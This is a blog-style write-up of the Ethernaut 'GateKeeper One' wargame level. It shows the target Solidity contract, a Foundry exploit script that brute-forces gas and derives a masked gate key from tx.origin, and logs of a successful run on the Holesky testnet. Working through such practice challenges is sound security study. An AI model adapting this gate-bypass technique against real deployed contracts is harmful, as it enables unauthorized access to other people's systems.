 ```yaml
---
layout: post
title: "[Ethernaut] GateKeeper One"
tags: blockchain ethernaut foundry
---
```


# Analysis

---

The goal is

1. Make it past the gatekeeper and register as an entrant to pass this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

https://docs.soliditylang.org/en/latest/units-and-global-variables.html

<aside>
💡

`gasleft() returns (uint256)`: remaining gas

</aside>

https://docs.soliditylang.org/en/latest/control-structures.html#external-function-calls

<aside>
💡

When calling functions of other contracts, you can specify the amount of Wei or gas sent with the call with the special options `{value: 10, gas: 10000}`. Note that it is discouraged to specify gas values explicitly, since the gas costs of opcodes can change in the future.

</aside>

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/GateKeeperOne.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Ex {
    function ex(GatekeeperOne gko_) external returns (uint){
        bytes8 gateKey = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;

        for(uint i=0; i<=350; i++) {
            (bool result,) = address(gko_).call{gas: i+(8191*3)}(abi.encodeWithSignature("enter(bytes8)", gateKey));
            if(result) {
                return i;
            }
        }
    }
}

contract GateKeeperOneSol is Script {
    GatekeeperOne public gko_ = GatekeeperOne(0x8905857EFf6E619C391C6a828B62F86f2D15CCf8);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
    
        console.log("Before entrant: ", gko_.entrant());
        Ex ex = new Ex();
        console.log("gas: ", ex.ex(gko_));
        console.log("After entrant: ", gko_.entrant());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/GateKeeperOneSol.sol --tc GateKeeperOneSol --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

== Logs ==
  Before entrant:  0x0000000000000000000000000000000000000000
  gas:  256
  After entrant:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.001016731 gwei

Estimated total gas used for script: 987058

Estimated amount required: 0.000001003572467398 ETH

==========================

##### holesky
✅  [Success] Hash: 0x4a586d22227da1b4e2ea917dace32511f929924c727de6b803583281190d3fc7
Block: 3700680
Paid: 0.000000434849804628 ETH (427697 gas * 0.001016724 gwei)

##### holesky
✅  [Success] Hash: 0xfb2ec0646fe566660746a9b0d4bee577abc05e255f4e08aec3dfd7368faaf944
Contract Address: 0xBD597a280DC80c5f4D76A6Ccf23FAA6b00f721e3
Block: 3700680
Paid: 0.000000282768228708 ETH (278117 gas * 0.001016724 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000717618033336 ETH (705814 gas * avg 0.001016724 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-22-GateKeeper-One/complete.png)